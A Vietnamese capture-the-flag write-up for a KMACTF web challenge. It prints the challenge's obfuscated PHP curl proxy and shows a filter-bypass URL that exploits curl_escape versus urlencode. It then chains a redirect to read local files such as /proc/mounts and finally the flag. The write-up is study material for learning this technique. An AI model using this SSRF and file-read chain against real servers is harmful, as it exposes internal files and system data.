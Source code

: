 # Jo`in Le'm

![image-20230619172618157](./assets/image-20230619172618157.png)

Hint: <a href="#" onclick="alert('Kho^ng ca\n RCEEEeeeeeee!');">Hint 1</a> - <a href="#" onclick="alert('docker? df -h');">Hint 2</a>

Truy cập trang web là mình nhận được source code

![image-20230619173803696](./assets/image-20230619173803696.png)

Format lại và decode các chuỗi đã encode trong mã cho dễ nhìn :D

```php
<?php
goto TwWdv;
kP1Xc:
if ($url["scheme"] !== "http" && $url["scheme"] !== "https") {
    die;
}
goto dD_At;
B10vf:
function curl($url)
{
    $ch = curl_init($url);
    _:
    curl_setopt($ch, CURLOPT_FOLLOWLOCATION, false);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
    curl_setopt($ch, CURLOPT_TIMEOUT, 10);
    $ua = "User-Agent: " . ($_GET["ua"] ?? "vinhjaxt/1.0 (Mô vina Zai Zóc Vơ sần 69.0.1 nhanh tuyệt cú mèo chấn động năm châu, tương thích oép 5 CHẤM 0, nhanh đóng băng hỏa diệm sơn, với tốc độ ánh sáng bờ nốc chên)");
    curl_setopt($ch, CURLOPT_HTTPHEADER, array($ua));
    curl_setopt($ch, CURLOPT_URL, $url);
    $d = curl_exec($ch);
    $redirect_url = curl_getinfo($ch, CURLINFO_REDIRECT_URL);
    $url = $redirect_url;
    $httpcode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
    if ($httpcode >= 300 && $httpcode < 400 && $redirect_url) {
        goto _;
    }
    curl_close($ch);
    return $d;
}
goto zUkQD;
SZSj0:
_:
goto WuY9_;
RzWUE:
$ch = curl_init();
goto YlbNQ;
dD_At:
if ($url["host"] === "127.0.0.1" || gethostbyname($url["host"]) === "127.0.0.1") {
    die;
}
goto RzWUE;
TwWdv:
show_source(__FILE__);
goto B10vf;
zUkQD:
$url = parse_url($_GET["url"]);
goto kP1Xc;
YlbNQ:
if (curl_escape($ch, $_GET["url"]) === urlencode($_GET["url"])) {
    die;
}
goto SZSj0;
WuY9_:
echo curl($_GET["url"]);
```

Đại loại là bài này sử dụng `curl` đến một `url` được lấy từ param `$_GET["url"]`, trước khi curl thì url của mình có qua các bước kiểm tra đầu vào

```php
if ($url["scheme"] !== "http" && $url["scheme"] !== "https") {
    die;
}
if ($url["host"] === "127.0.0.1" || gethostbyname($url["host"]) === "127.0.0.1") {
    die;
}
if (curl_escape($ch, $_GET["url"]) === urlencode($_GET["url"])) {
    die;
}
```

Mình cần đảm bảo các điều kiện này để chương trình có thể curl đến url của mình. Mình có tìm hiểu về sự khác nhau của `curl_escape` và `urlencode`, cả 2 đều có mục đích là url encode nhưng mà 2 cái này khác nhau ở chỗ `curl_escape` thì không encode một vài kí tự trong đó có dấu `+`. Vậy nên khi đó url của mình sẽ là 

```
http://103.163.25.143:20109/?url=http://1:1+1@9vrvdr2e.requestrepo.com
```

Kết quả curl sẽ được hiển thị trên màn hình

![image-20230621204652142](./assets/image-20230621204652142.png)

Mà trong source code có ghi là nó sẽ curl một lần nữa nếu trang web có redirect url

```php
    $redirect_url = curl_getinfo($ch, CURLINFO_REDIRECT_URL);
    $url = $redirect_url;
    $httpcode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
    if ($httpcode >= 300 && $httpcode < 400 && $redirect_url) {
        goto _;
    }
```

Thử sửa lại response redirect đến một file hệ thống

![image-20230621205201085](./assets/image-20230621205201085.png)

Kết quả thành công -> vậy nên ở challenge này là lỗi Directory Traversal, mình cần tìm flag ở một đường dẫn nào đó

![image-20230621205228308](./assets/image-20230621205228308.png)

Khi hint 2 được đưa ra thì mình dự đoán flag được mount vào container trong docker vậy nên có thể có đường dẫn flag nằm trong `/proc/mounts` của container

![image-20230621205415470](./assets/image-20230621205415470.png)

Đọc file `/proc/mounts` mình tìm được đường dẫn flag `/home/siuvip_saoanhbatduocem/etc/passwd`

![image-20230621205554608](./assets/image-20230621205554608.png)

Đọc file `/home/siuvip_saoanhbatduocem/etc/passwd` và mình có flag

![image-20230621205633736](./assets/image-20230621205633736.png)

```
Flag: KMACTF{Pha?i_the'_chu'! La`m to't le'm con troai!}
```
